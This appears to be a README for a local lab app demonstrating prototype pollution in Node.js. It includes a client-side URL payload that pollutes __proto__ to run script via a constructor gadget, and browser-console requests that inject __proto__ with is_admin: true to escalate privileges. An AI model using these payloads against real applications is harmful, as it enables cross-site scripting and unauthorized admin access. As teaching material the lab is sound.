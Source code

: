 # Prototype Pollution

## Prerequisite

- [NodeJS](https://nodejs.org/en/) v16.x or latest

Install npm packages
```bash
$ npm install
```

Running the server
```bash
$ npm start
```

Open browser and visit [http://localhost:4848](http://localhost:4848)

## Client Side Prototype Pollution

```
http://localhost:4848?__proto__[props][][value]=1&__proto__[name]=": ''.constructor.constructor('alert(`polluted`)')(),"
```

## Server Side Prototype Pollution

Open `Developer tools` in the browser and just insert code below on `Console` tab

Step 1: Post data
```js
useFetch({
  url: '/api',
  method: 'POST',
  headers: {
    'Content-type': 'application/json'
  },
  data: JSON.stringify({
    user: {
      name: 'user',
      password: '1234'
    },
    blog: {
      title: 'Post 1',
      text: 'The blog post 1'
    }
  }),
  callback: (_xhr, success) => {
    console.log('success =>', success)
  }
});
```


Step 2: Delete data 
```js
useFetch({
  url: '/api',
  method: 'DELETE',
  headers: {
    'Content-type': 'application/json'
  },
  data: JSON.stringify({
    user: {
      name: "user",
      password: "1234"
    },
    blog: 1
  }),
  callback: (_xhr, success) => {
    console.log('success =>', success)
  }
});
```


Step 3: Post data with `__proto__` key
```js
useFetch({
  url: '/api',
  method: 'POST',
  headers: {
    'Content-type': 'application/json'
  },
  data: JSON.stringify({
    user: {
      name: 'user',
      password: '1234'
    },
    blog: {
      title: 'Post 2',
      text: 'The blog post 2',
      ['__proto__']: {
        is_admin: true
      }
    }
  }),
  callback: (_xhr, success) => {
    console.log('success =>', success)
  }
});
```

Repeat step 2
